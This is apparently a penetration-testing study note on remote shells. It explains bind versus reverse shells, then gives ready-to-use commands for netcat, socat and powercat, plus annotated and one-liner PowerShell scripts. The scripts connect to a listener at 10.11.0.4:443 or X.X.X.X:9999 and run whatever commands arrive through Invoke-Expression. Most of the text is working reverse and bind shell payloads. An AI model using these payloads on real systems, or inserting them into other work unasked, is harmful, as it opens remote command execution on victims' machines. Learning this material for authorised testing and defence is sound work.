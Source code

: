# Remote Shells

## Background

Imagine a program running on the commandline. It prints output to _STDOUT_, errors to _STDERR_, and receives input from _STDIN_ (generally speaking). Instead of having I/O being sent and receives on the commandline, we could instead hook them up (_bind them_) to a network socket. Thus a remote peer can send input to the program's input, and the program sends its output and errors to the remote peer. This is the concept of a **remote shell**.

Remember the difference between a **bind shell** and a **reverse (bind) shell**:

**Bind Shell**:

- Q: "Who is presenting the shell?"

  - A: The one binding the socket

- Q: "Who is accessing the shell?"

  - A: The remote peer connecting

**Reverse Bind Shell**:

- Q: "Who is presenting the shell?"

  - A: The remote peer connecting

- Q: "Who is accessing the shell?"

  - A: The one binding the socket

## netcat

- Bind shell with `netcat`

On the system who intends to bind the program and listen:

```bash
$ netcat -lvnp PORT -e PROGRAM
```

On the system who intends to connect:

```bash
$ netcat -nv ADDRESS PORT
```

- Reverse-bind shell with `netcat`

On the system who intends to listen:

```bash
$ netcat -lvnp PORT
```

On the system who intends to expose the program and connect:

```bash
$ netcat -nv ADDRESS PORT -e PROGRAM
```

## socat

- Reverse shell with `socat`:

On the system who intends to listen:

```bash
$ socat -d -d TCP4-LISTEN:PORT STDOUT
```

On the system who intends to expose the program and connect:

```bash
$ socat TCP4:ADDR:PORT exec:PROGRAM
```

- Encrypted bind shell with `socat`:

On the system who intends to expose the program and listen:

```bash
$ socat OPENSSL-LISTEN:PORT,cert=pem_file,verify=0,fork exec:PROGRAM
```

On the system who intends to connect:

```bash
$ socat - OPENSSL:ADDR:PORT,verify=0
```

## PowerShell

- Reverse shell with PowerShell (expanded form):

```powershell
# Initialise the TCP socket connection stream, and create a buffer
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
  # Retrieve the $data (i.e. remote command) from the stream buffer
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  # IEX means Invoke-Expression. It will run the command in $data, redirect stderr, and retrieve the output
  $sendback = (iex $data 2>&1 | Out-String );
  # Return the output of the command, and append a little prompt
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  # Encode to ASCII
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  # Write the command output + prompt back
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush();
}

$client.Close();
```

- Reverse shell with PowerShell (one-liner):

```powershell
powershell -c '$client = New-Object System.Net.Sockets.TCPClient(''X.X.X.X'',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

- Bind shell with PowerShell (one-liner):

```powershell
powershell -c '$listener = New-Object System.Net.Sockets.TcpListener(''X.X.X.X'',9999);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()'
```

## PowerCat

- Reverse shell with `powercat`:

```powershell
powercat -c ADDR -p PORT -e program
```

- Bind shell with `powercat`:

```powershell
powercat -l -p PORT -e program
```
